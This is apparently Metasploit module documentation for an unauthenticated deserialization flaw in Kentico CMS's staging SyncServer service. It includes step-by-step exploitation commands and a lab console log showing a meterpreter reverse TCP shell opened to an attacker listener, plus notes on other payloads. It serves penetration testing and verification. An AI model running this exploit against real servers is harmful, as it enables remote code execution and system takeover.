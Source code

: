 ## Vulnerable Application

[Kentico CMS](www.kentico.com) CMS platform versions 12.0.14 and earlier are
affected by an unauthenticated deserialization vulnerability in the Staging
Service which can be leveraged by an attacker to execute arbitrary commands in
the context of the target server process (usually either `NT AUTHORITY\NETWORK
SERVICE` or `NT AUTHORITY\SYSTEM`). The vulnerability is triggered
by sending a HTTP POST request to the SyncServer.asmx interface
`ProcessSynchronizationTaskData` method `stagingTaskData` parameter request path
in HTTP GET requests sent to the built-in web server. This module has been
tested successfully on Windows 10 using exec and adduser payloads against
Kentico v11.

The vulnerable application is available for download at:

  * https://d82ujmuzqhypi.cloudfront.net/Kentico_11_0_trial.exe
  * https://d82ujmuzqhypi.cloudfront.net/Kentico_12_0_trial.exe
  * https://www.kentico.com/download-demo

## Verification Steps
  1. Install a vulnerable Kentico CMS Trial version.
  2. Access web instance admin interface at /admin/
  3. Default credentials are 'administrator' with blank password.
  4. Navigate to `Settings`, then expand `Settings` > `Versioning & Synchronization` > `Staging`
  5. Check `Enable Staging Service` and click `Save`
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/kentico_staging_syncserver`
  8. Do `set RHOSTS ip` (Trial is limited to 127.0.0.1 remote HTTP clients, but paid versions are public websites)
  9. Do `set RPORT port` (installs with a random port within IISExpress for at least Trial versions)
  10. Do `check`
  11. Verify the target is detected
  12. Do `set PAYLOAD cmd/windows/generic`
  13. Do `set CMD calc`
  14. Do `exploit`
  15. Verify `calc.exe` launches. 

## Scenarios

### Kentico CMS v11.0 trial on Windows 7 SP 1 x64

```
msf5 exploit(windows/http/kentico_staging_syncserver) > show options 

Module options (exploit/windows/http/kentico_staging_syncserver):

   Name       Current Setting                              Required  Description
   ----       ---------------                              --------  -----------
   Proxies                                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.31                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                           yes       The target port (TCP)
   SRVHOST    0.0.0.0                                      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080                                         yes       The local port to listen on.
   SSL        false                                        no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                                 no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /Kentico11/CMSPages/Staging/SyncServer.asmx  yes       Path to SyncServer.asmx
   URIPATH                                                 no        The URI to use for this exploit (default is random)
   VHOST      localhost                                    no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows EXE Dropper


msf5 exploit(windows/http/kentico_staging_syncserver) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Command Stager progress -  24.99% done (2999/12002 bytes)
[*] Command Stager progress -  49.98% done (5998/12002 bytes)
[*] Command Stager progress -  74.96% done (8997/12002 bytes)
[*] Sending stage (201283 bytes) to 192.168.159.31
[*] Command Stager progress -  99.83% done (11982/12002 bytes)
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.31:51599) at 2020-05-04 09:51:29 -0400
[*] Command Stager progress - 100.00% done (12002/12002 bytes)

meterpreter > sysinfo
Computer        : WIN-9NSI4A6AIHJ
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter >
```

## Notes

  1. The IISExpress config is located in ~/Documents/IISExpress/config/applicationhost.config
  2. Port number can be changed or allow remote access by replacing 'localhost' with '*'
  3. To run IIS on command line, C:\PROGRA~1\IIS Express\iisexpress.exe /site:Kentico11 (etc)
  4. It might be possible to use a CmdStager or FileDropper but couldn't get it working in time. Might be a string limit and has issues with Unicode.
  5. Some reverse or bind payloads work if the environment is right.
  6. Other serialized injections are possible with `ysoserial.exe -f SoapFormatter` but untested.
